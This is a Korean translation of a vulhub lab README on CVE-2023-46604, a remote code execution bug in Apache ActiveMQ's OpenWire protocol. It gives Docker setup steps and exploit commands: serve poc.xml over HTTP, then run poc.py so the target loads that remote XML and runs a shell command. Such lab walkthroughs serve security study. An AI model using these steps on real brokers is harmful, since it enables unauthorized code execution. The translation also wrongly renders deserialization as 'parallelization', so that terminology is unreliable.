 # Apache ActiveMQ OpenWire 프로토콜 병렬화 RCE (CVE-2023-46604)

[원문(English version)](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/README.md)

Apache ActiveMQ는 미국 Pachitea(Apache) 소프트웨어 재단에서 개발한 오픈 소스 메시징 미들웨어로 자바 메시징 서비스, 클러스터링, 스프링 프레임워크 등을 지원합니다.

OpenWire 프로토콜은 ActiveMQ에서 여러 다른 언어 및 플랫폼에서 ActiveMQ에 대한 네이티브 액세스를 허용하도록 설계되었습니다. Apache ActiveMQ 5.18.2 이전 버전은 역직렬화 취약성의 영향을 받았습니다. 이 취약성은 네트워크 액세스 권한을 가진 원격 공격자가 OpenWire 프로토콜의 직렬화된 클래스 유형을 조작하여 임의의 셸 명령을 실행하여 에이전트의 클래스 경로에 있는 모든 클래스를 인스턴스화할 수 있도록 할 수 있습니다.

참고 문헌:

- <https://activemq.apache.org/news/cve-2023-46604>
- <https://xz.aliyun.com/t/12929>
- <https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/>
- <https://forum.butian.net/share/2566>

## 환경 설정

ActiveMQ는 다음 2개의 포트를 수신합니다:

| 기본 포트     | 기본 조건                             |
|--------------|--------------------------------------|
| 8161 (web)   | 원격 액세스에는 구성이 필요함           |
| 61616 (tcp)  | 원격 액세스 허용                       |

포트 61616에 병렬화 문제가 있습니다.

ActiveMQ 5.17.3 서버를 실행하려면 다음 명령을 입력합니다:

```
docker compose up -d
```

61616번 포트만 사용하면 되지만 악용 전에 서비스가 성공적으로 시작되었는지 확인하려면 `http://localhost:8161`에 접속하십시오.
![localhost:8161.png](localhost8161.png)

## Exploit

Python3 http.server 모듈을 사용하여 [poc.xml](poc.xml) 파일이 있는 폴더에서 HTTP 서버를 빠르게 시작할 수 있습니다:

```shell
python3 -m http.server 6666
```
![http.server.png](http.server.png)


그런 다음 [poc.py](poc.py)을 실행합니다:

```shell
python3 poc.py target port http://ip of http server/poc.xml
```
![poc.py.png](poc.py.png)

다음 명령을 사용하여 ActiveMQ 컨테이너 내부를 확인할 수 있습니다:

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

touch /tmp/activeMQ-RCE-success가 성공적으로 실행되었음을 보여 줍니다.

![ls-l-tmp.png](ls-l-tmp.png)